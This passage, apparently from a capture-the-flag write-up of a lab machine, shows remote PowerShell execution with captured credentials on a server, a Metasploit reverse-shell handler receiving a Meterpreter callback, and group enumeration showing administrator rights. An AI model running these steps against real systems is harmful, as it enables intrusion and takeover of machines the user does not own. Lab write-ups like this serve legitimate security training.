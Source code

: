 Perfect, just need to setup a metasploit handler again and run the script:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{C:\Users\imonks\Desktop\wm.ps1}
```

Metasploit handler:
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001 
[*] 10.10.11.145 - Meterpreter session 1 closed.  Reason: Died
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 2 opened (10.10.14.14:9001 -> 10.10.11.145:49821 ) at 2022-03-25 10:34:04 +0800

meterpreter > shell
Process 2668 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```

## Meterpreter session as jmorgan
```
C:\Users\jmorgan\Documents>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
